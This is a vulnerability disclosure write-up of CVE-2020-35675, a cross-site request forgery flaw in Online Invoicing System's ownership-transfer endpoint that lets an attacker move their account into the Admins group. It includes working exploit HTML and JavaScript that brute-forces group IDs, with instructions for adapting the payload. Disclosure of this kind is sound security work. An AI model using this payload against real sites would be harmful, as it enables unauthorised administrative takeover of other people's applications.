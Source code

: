 ```yaml
---
layout: post
title: CVE-2020-35675
tags: [CVE-Writeup, CSRF]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.0
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Cross Site Request Forgery
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System offers a functionality which allows an administrator to move the records of members across groups. The endpoint (admin/pageTransferOwnership.php), which is responsible for moving members across groups lacks CSRF protection thus resulting in an attacker being able to escalate their privileges to Administrator and effectively taking over the application by having the application's admin browse to an attacker controlled page which contains the specially crafted proof of concept.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

When browsing to `admin/pageTransferOwnership.php` with a user that has administrative privileges, the "Batch Transer of Ownership" functionality will be made available:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/batch.png)

As stated by the application, this functionality allows an administrator to:
> The batch transfer wizard allows you to transfer data records of one or all members of a group (the source group) to a member of another group (the destination member of the destination group)

After selecting the required dropdowns, an example of a successful request will look as follows:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/request.png)

Let's break down the above request to make it easier to understand:

~~~
sourceGroupID = The ID of the group you would like to be moving records from. 
sourceMemberID = The username of the member you would like to move records for. Using -1 means that all user records will be moved.
destinationGroupID = The ID of the group you would like to move records to.
moveMembers = If 1 that means it will move the member and their data to the group and not overrwrite any existing records in the destination group.
~~~

Something else you might notice in the request is that there appears to be no CSRF protecton such is in the form of a token (whether it be a parameter or cookie). Furthermore looking closely, we notice that the application does not utilize `Same Site Cookies` meaning this this endpoint is most likely vulnerable to Cross-Site Request Forgery.

However as shown in the request above in order for succesful exploitation to occur, an attacker would need to know the values of the following parameters:

~~~
sourceGroupID
destinationGroupID
~~~

After enumerating the application, it appears there is no concrete way for an attacker to retrieve the Group ID in which they are part of. Furthermore, it appears there is no way for the attacker to retrieve the Group ID of the Administrator's group either. While normally this could be seen as the nail in the coffin, there is a way around this.

An astute attacker would observe that on a fresh install, there are two groups which are created automatically with the following ID's:

~~~
Anonymous - 1
Admins - 2
~~~

Meaning that anytime a new custom group will be created, it will start from ID 3 and increment from there. Finally, the application does not allow the administrator to delete the pre-created groups meaning the ID of the Admin group will always result in 2.

With this in mind, an attacker is now aware of the `destinationGroupID` and will only need the `sourceGroupID` in which they are apart of in order to transfer their account to the Admin's group therefore granting themselves administrator privileges.

As mentioned earlier, this value will start from 3 and increment based on the number of custom groups the application has.

Since the endpoint is using a `GET` request to pass the information to the server, the following HTML snippet can be used:

~~~javascript
<img src="http://localhost/admin/pageTransferOwnership.php?sourceGroupID=3&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1"></img>
~~~

Upon the application's administrator visiting a page which contains the above HTML, their browser will try to load the image by requesting the URL above. However instead of loading the image, the browser will follow the URL and trigger the vulnerability. The proof of concept above will attempt to move the records of a member whose username attacker from Group 3 to Group 2.

As mentioned before, the attacker is unaware of the group in which their user lives in. Using the snippet above is effectively playing Russian Roulette as the attacker will have to keep guessing their group. In order to have a good chance of this working, an attacker will need to be extremely lucky.

However instead of relying on luck, the attacker can utilize Javascript to leverage the following proof of concept:

~~~javascript
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
~~~

The above Javascript snippet will result in 10 iterations (3 -> 13) with each iteration creating a new image tag which sets the value of the `sourceGroupId` parameter to the current value of `i` in the iteration. In the end this will result in 10 image tags with each having a different value for the `sourceGroupID` parameter. In this example, 3-13 was used however in a real life scenario an attacker can create as many iterations as they would like. The reason the range starts at 3 is because it was confirmed earlier that any new custom groups start at that index.

Upon the application's administrator visiting this proof of concept, we can confirm that the requests are succesfully executing by taking a look at the browser's DevTools Network Tab:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/network.png)

As such, an attacker is able to host a specially crafted proof of concept that upon being visted by the application's administrator will move the attacker's user into the Admin's user group therefore effectively granting the attacker administrative privileges and allowing them to takeover the application.

# Proof of Concept

~~~html
<html>
<body>
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
</body>
</html>
~~~

**Replace above**:
- Range to suit your needs
- URL pointing to the vulnerable application
- Value of sourceMemberID with your username
